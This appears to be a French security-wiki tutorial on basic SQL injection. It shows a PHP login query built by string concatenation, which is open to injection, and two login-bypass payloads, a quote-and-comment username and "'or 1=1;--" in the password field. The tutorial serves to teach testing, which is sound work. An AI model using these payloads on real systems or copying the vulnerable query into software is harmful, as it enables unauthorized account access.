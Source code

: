 ```yaml
---
description: >-
  Ces opérations sont à utiliser en premier recours, pour vérifier si le système
  n'est pas totalement désuet de toute sécurité.
---
```


# Injections basiques

#### 1. Par le nom d'utilisateur

Dans un premier temps, on peut s'attaquer au _**nom d'utilisateur**_. Prenons par exemple, une requête de connexion au serveur de ce type :

```sql
select * from user_table
where username = 'anto'
and password = 'mystrongpassword';
```

En supposant que le mot de passe ne soit pas haché, la requête PHP ressemblerait à ceci :

```php
// Connexion à la database
$db_query = "select * from user_table where
username = '".$user."'
AND password = '".$password."';";
// Execution de la requête
```

Ainsi, en entrant dans la section du nom d'utilisateur « **anto’;--** » la requête SQL devient :

```sql
select * from user_table where
username = 'anto';-- and password = 'mystrongpassword'
```

Or, le double tiret permet de commenter du code en SQL, ce qui revient donc à contourner le mot de passe, et à pouvoir se connecter en ayant uniquement besoin du nom d'utilisateur.



#### 2. Par le mot de passe, par attaque booléenne 

Une deuxième possibilité à tester, est l'injection SQL booléenne. Par exemple, en ayant une requête SQL de ce type :

```sql
select * from user_table where
username = 'anto' and
password = 'password';
```

On peut très bien contourner le mot de passe, en entrant dans la section du mot de passe la commande « **'or 1=1;--** » qui transforme la requête comme ceci :

```sql
select * from user_table where
username = 'anto' and
password = 'password' or 1=1;--;
```

Et qui de ce fait, rend totalement inutile la condition password='anto' vu que la condition 1=1 sera toujours vraie.

{% hint style="warning" %}
Malheureusement pour nous, ces genres de vulnérabilités sont extrêmement rares, mais valent le coup d'être essayés.
{% endhint %}

